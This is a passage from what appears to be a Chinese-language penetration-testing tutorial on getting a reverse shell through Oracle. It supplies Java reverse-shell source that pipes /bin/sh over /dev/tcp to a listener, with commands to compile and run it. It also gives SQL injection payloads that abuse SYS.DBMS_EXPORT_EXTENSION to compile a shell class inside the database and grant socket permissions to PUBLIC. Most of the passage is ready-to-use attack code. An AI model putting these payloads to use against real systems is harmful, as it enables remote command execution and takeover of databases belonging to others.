 该方式无回显，在注入时不太方便利用，但可通过此方式反弹。

**Java反弹Shell**

在提权操作中如果遇到无回显情况，如上部分第三种方法，可以通过反弹shell的方式，在自己VPS上利用nc监听端口。以此来执行交互式执行命令（类似带外通信）。

**编译payload**

java源代码（linux系统的payload）：

```java
import java.io.*;
import java.net.*;
public class shellRev
{
        public static void main(String[] args)
        {
                System.out.println(1);
                try{run();}
                catch(Exception e){}
        }
public static void run() throws Exception
        {
                String[] aaa={"/bin/bash","-c","exec 9<> /dev/tcp/192.168.1.50/8080;exec 0<&9;exec 1>&9 2>&1;/bin/sh"};
                Process p=Runtime.getRuntime().exec(aaa);
    }
}
```

```
#编译
javac shellRev.java

#执行
java shellRev
```



**使用Java执行**



**创建Java库**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "shell" as import java.io.*;import java.net.*;public class shell {public static void run() throws Exception{String[] aaa={"/bin/bash","-c","exec 9<> /dev/tcp/127.0.0.1/8080;exec 0<&9;exec 1>&9 2>&1;/bin/sh"};Process p=Runtime.getRuntime().exec(aaa);}}'''';END;'';END;--','SYS',0,'1',0) from dual
```

**赋予Java权限**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.net.SocketPermission'''''''', ''''''''<>'''''''', ''''''''*'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual
```

